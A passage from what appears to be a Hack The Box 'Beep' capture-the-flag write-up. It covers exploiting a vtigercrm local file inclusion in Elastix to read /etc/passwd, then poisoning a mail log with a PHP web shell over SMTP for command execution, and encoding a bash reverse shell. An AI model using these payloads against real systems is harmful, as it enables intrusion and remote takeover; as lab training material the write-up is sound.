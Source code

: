 		┌──(root💀kali)-[~/htb/beep/10.10.10.7/exploit]
		└─# curl -ks 'https://beep.htb//vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action' | cut -d ':' -f1 
		root
		fanis

		┌──(root💀kali)-[~/htb/beep/10.10.10.7/exploit]
		└─# echo -e "fanis\nroot" > ssh_username
		```

# Initial Foothold - 2
##  Elastix 2.2.0 LFI2RCE via Mail Log Poisoning
1. Uses the same LFI exploit `php/webapps/37637.pl`, but instead of including a file that reveal creds, SMTP log poisoning is done, leading to RCE.
2. How does it work
	- A mail containing a webshell in its content is sent via SMTP and is stored in `/var/mail/<user>`, this allows `RCE` when including it.
	- SMTP must be up
	- We must have read access to `/var/mail/<user>`
3. Exploit
	1. Obtain list of usernames by including `/etc/passwd`, and including the users until the file can be displayed
	2. OR Obtain user that is running the webserver by including `/proc/self/status`, and including that same user's mail file
	3. Include `/proc/self/status`
		![]({{ page.img_path }}Pasted%20image%2020220823031048.png)
		- `UID: 100` - `asterisk` 
	6. Poison `/var/mail/asterisk`
		```
		telnet $ip 25
		MAIL FROM:0xyf
		RCPT TO: asterisk
		DATA
		<?php system($_GET['c']); ?>
		.
		QUIT
		```
		![]({{ page.img_path }}Pasted%20image%2020220823031539.png)
	7. Include `/var/mail/asterisk` & execute commands
		```
		/vtigercrm/graph.php?current_language=../../../../../../../..//var/mail/asterisk%00&module=Accounts&action&c=id;whoami
		```
		![]({{ page.img_path }}Pasted%20image%2020220823031715.png)
	8. Start listener
	9. URL Encode payload
		```
		┌──(root💀kali)-[~/htb/beep]
		└─# hURL -U "/bin/bash -i >& /dev/tcp/10.10.14.2/4444 0>&1"
		